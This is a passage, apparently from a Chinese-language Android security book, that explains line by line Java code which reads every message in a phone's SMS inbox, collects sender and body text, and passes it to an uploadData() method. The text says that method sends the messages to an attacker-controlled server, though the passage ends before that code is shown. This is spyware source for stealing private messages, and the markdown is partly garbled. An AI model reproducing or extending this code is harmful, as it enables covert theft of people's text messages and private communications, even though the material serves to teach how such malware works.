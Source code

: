 ```

      @Override
      public void run() {

        Uri uri = Uri.parse("content://sms/inbox");

        Cursor cursor = getContentResolver().query(uri,null,null,null,null);

        int index = cursor.getColumnIndex("body");

        while(cursor.moveToNext()){

          sms += "From :" + cursor.getString(2) + ":" + cursor.getString(index) + "\n";
          }

          arrayList.add(new BasicNameValuePair("sms",sms));

          uploadData(arrayList);

        }
      };
      thread.start();
    ```

让我们逐行理解前面的代码：

*   首先，我们创建了一个线程，以避免在主线程上执行网络任务。
*   接下来，我们将创建一个 Uri 对象，指定要读取的内容。在我们的例子中，它是收件箱内容。`Uri` 对象通常用于告诉`ContentProvider`我们希望通过引用访问的内容。它是到特定资源的不可变的一对一映射。方法`Uri.parse`从格式正确的字符串创建一个新的 Uri 对象：

    ```
    Uri uri = Uri.parse("content://sms/inbox");
    ```

*   接下来，我们使用游标对象从表中读取`SMS`**`body`和`From`字段。提取的内容存储在我们前面声明的`sms`变量中：

    ```
    Cursor cursor = getContentResolver().query(uri,null,null,null,null);

      int index = cursor.getColumnIndex("body");

      while(cursor.moveToNext()){

        sms += "From :" + cursor.getString(2) + ":" + cursor.getString(index) + "\n";
     }
    ```** 
***   阅读短信后，我们使用以下行将值作为基本名称-值对添加到`ArrayList`对象：

    ```
    arrayList.add(new BasicNameValuePair("sms",sms));
    ```

    *   最后，我们使用`ArrayList`对象作为参数调用`uploadData()`方法。如下所示：

    ```
    uploadData(arrayList);
    ```** 

 **#### uploadData（）方法的代码

以下是将 SMS 上传到攻击者控制的服务器的代码：

```